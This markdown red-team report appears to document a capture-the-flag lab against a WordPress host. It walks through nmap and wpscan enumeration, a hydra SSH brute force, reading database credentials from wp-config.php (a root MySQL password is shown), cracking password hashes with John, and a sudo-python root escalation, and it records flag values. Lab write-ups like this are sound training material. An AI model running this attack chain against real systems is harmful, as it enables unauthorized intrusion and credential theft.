

# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -A 192.168.1.110 
```


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.

        - `wpscan http://192.168.1.110/wordpress/ --enumerate u`
      
      
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      
        - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
      
      
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
        
        - `ssh michael@192.168.1.110`
      
      
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      
        - `cd /var/www/html/`
        - `cat service.html`
      
      
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      
        - `locate flag2.txt`
      
      
      
        - `cd /var/www/`
        - `cat flag2.txt`
      
      
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      
        - `cd /var/www/html/wordpress/`
        - `cat wp-config.php`
      
      
      - The login credentials can be used to login to the MySQL database.
      
        - `mysql -u root -p'R@v3nSecurity'`
      
      
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      
        - `show databases;`
        - `use wordpress;`
      
      
      
        - `show tables;`
      
      
      
        - `select * from wp_posts` 
      
      
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      
        - `echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt`
        - `john wp_hashes.txt`
      
      
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      
      
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      
        - `sudo -l`
      
      
      - Steven's python privileges can be use to escalate to root.
      
        - `sudo python -c 'import pty;pty.spawn("/bin/bash")'`
      
      
      - As root the `locate` command can be used to find flag4.
      
        - `locate flag4.txt`
      
      
      
        - `cd /root/`
        - `cat flag4.txt`
      
      